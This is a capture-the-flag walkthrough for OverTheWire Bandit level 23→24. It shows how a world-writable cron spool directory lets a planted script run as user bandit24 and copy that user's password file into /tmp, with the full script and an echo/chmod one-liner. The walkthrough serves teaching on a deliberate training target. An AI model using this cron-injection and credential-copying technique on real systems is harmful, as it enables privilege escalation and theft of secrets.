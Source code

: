 # Level 23 → 24 🔐  

---

## 🎯 Goal  

A cron job runs automatically as user `bandit24`. The script deletes itself after running, so you’ll need to create your own script in the right place to make it reveal the password for the next level.  

This is your first real shell script challenge, but don't worry, it's not nearly as messy as you think it might be.

---

## 🛠 Commands Used  

- `cat` – View file contents  
- `touch` – Create text files (in this case a script file)
- `nano` – Edit files 
- `chmod` – Set permissions so scripts can be executed  
- `ls -hl` – Verify files exist and check permissions  

---

## 🚀 How to Solve  

1. Look at the cron configuration for `bandit24` in `/etc/cron.d`:  
   ```bash
   cat /etc/cron.d/cronjob_bandit24
   ```
   You’ll see it runs a script every minute as `bandit24`.  

2. Check what that script is doing:  
   ```bash
   cat /usr/bin/cronjob_bandit24.sh
   ```  
   You’ll notice it executes any file placed in `/var/spool/bandit24/foo`.
    
   Then, it deletes the script after running it.  

3. This means you can drop your own script into `/var/spool/bandit24/foo`, and it will run as `bandit24`. Since `bandit24` has access to `/etc/bandit_pass/bandit24`, you can make your script copy that password into a world-readable place (like `/tmp`).  

4. Write your script:
   ```bash  
   #!/bin/bash
   
   cat /etc/bandit_pass/bandit24 > /tmp/mysecret
   ```  
   Save this as `/var/spool/bandit24/foo/myscript.sh`.  

5. Make it executable **immediately after saving** (the script might be deleted before you chmod it due to the *other* script that will run yours):  
   ```bash
   chmod 755 /var/spool/bandit24/foo/myscript.sh
   ```

6. Wait a minute for the cron job to run. Then check the file you wrote to:  
   ```bash
   cat /tmp/mysecret
   ```
   That will contain the password for `bandit24`. 🎉  

---

## ⚡️ Important Note  

Because the cron job deletes your script after running it, you have to be fast:  
- Save the file  
- Run `chmod` immediately  
- Otherwise cron may delete it before it becomes executable  

---

## 🔄 Alternative Method  

Instead of writing the file and then rushing to chmod it, you can create it with the right permissions from the start:  

```bash
echo '#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/mysecret' > /var/spool/bandit24/foo/myscript.sh
chmod 755 /var/spool/bandit24/foo/myscript.sh
```
Here’s what’s happening step by step:

- `echo` → writes the script content into a file.
- `#!/bin/bash` → ensures the script runs with bash.
- `cat /etc/bandit_pass/bandit24 > /tmp/mysecret` → copies the password into /tmp/mysecret when executed.
- `> /var/spool/bandit24/foo/myscript.sh` → sends the echo output into the script file.
- `chmod 755` → ensures cron (and others) can read + execute the script.

---

## 💡 Bonus Tips  

- `755` (or `-rwxr-xr-x`) is the right permission because the system needs read + execute access to your script as it is a text file, not binary.  
- If you set it to `711` or `-rwx--x--x`, only you could read it, so cron wouldn’t work.  
- Always think in terms of: "who needs to read this, who needs to run this?"  

---

## 🧠 Why This Level Matters  

This is the first time you’re writing your own script to escalate access.  

It teaches you:  

- How cron jobs can run your code as another user  
- Why permissions (chmod) matter in automation  
- How to design a script to output sensitive data somewhere you can reach  
- That automation doesn’t care about your mistakes, it will just fail silently if permissions are wrong  

This level is like a mini “exploit sandbox”: you get to inject code into a trusted process. In the real world, that’s a massive deal. 🚀  
